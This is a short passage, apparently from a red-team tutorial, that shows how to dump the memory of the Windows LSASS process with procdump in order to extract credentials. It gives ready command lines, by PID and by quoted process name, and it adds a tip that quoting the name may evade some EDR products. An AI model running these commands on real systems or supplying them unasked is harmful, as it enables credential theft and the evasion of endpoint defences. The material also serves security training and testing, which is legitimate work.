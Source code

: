 Then dump the findstr value with the same procdump:

```bash
C:\Users\0xhav0c> procdump.exe -accepteula -ma 528 out.dmp
```

![Dumping lsass.exe with procdump.exe after finding lsass.exe PID](/assets/img/pitcures/red-team/dumplsass8.png)

Additionally, depending on the EDR, you can simply add quotes around the transaction name

```bash
PS C:\Users\0xhav0c> procdump.exe -accepteula -ma “lsass.exe” out.dmp
#or
PS C:\Users\0xhav0c> procdump.exe -accepteula -ma 'lsass.exe' out.dmp
```
